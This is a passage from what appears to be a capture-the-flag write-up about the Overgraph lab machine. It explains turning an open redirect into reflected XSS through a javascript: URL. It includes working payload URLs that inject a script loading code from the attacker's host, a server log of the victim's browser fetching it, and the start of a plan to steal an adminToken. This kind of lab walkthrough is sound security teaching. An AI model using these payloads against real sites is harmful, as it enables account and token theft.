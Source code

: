 `window.location.search` returns everything after (and including) the `?` in a
URL. In this case, it’s splitting on `=`, so if the URL ends in
`?redirect=[url]`, then `[url]` will be passed into `window.location.replace`.

`window.location.replace` takes a URL and replaces the current resource with
what’s at that URL.

#### Weaponize

At this point, all I’ve got is an open redirect (which is dangerous on its
own), but to make this a reflective XSS, I’ll take advantage of the
[JavaScript URL Protocol](https://docs.microsoft.com/en-us/previous-
versions/aa767736\(v=vs.85\)). If a URL is of the form `javascript:[script]`,
the stuff in `[script]` will be run as JavaScript.

To test this, I’ll visit `graph.htb/?redirect=javascript:alert(1)`:

![image-20220727170135294](https://0xdfimages.gitlab.io/img/image-20220727170135294.png)

#### Load Arbitrary JavaScript

I’ll play around with a URL in Firefox to get something that will load and
execute arbitrary JavaScript from my server. With `alert.js` being a simple
`alert(1)`, this URL works to pop an alert:

    
    
    http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D%27%3Cscript%20src%3d%22http://10.10.14.6/alert.js%22%3E%3C/script%3E%27
    

![image-20220727171640868](https://0xdfimages.gitlab.io/img/image-20220727171640868.png)

I’ll generate a similar link to send to Larry:

    
    
    http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D'<script%20src%3d"http://10.10.14.6/csrf.js"></script>'
    

It’s important that certain characters are URL-encoded, and that there are no
spaces. On sending:

    
    
    10.10.11.157 - - [27/Jul/2022 19:57:11] code 404, message File not found
    10.10.11.157 - - [27/Jul/2022 19:57:11] "GET /csrf.js HTTP/1.1" 404 -
    

A browser on Overgraph is requesting `csrf.js`. That’s promising!

This JS will run in the context of `graph.htb`, so I can’t directly request
the `adminToken` from here.

### Exfil adminToken

#### Strategy

Pulling this all together, I’ll send Larry a link with the reflective XSS
payload to load JavaScript from my server.
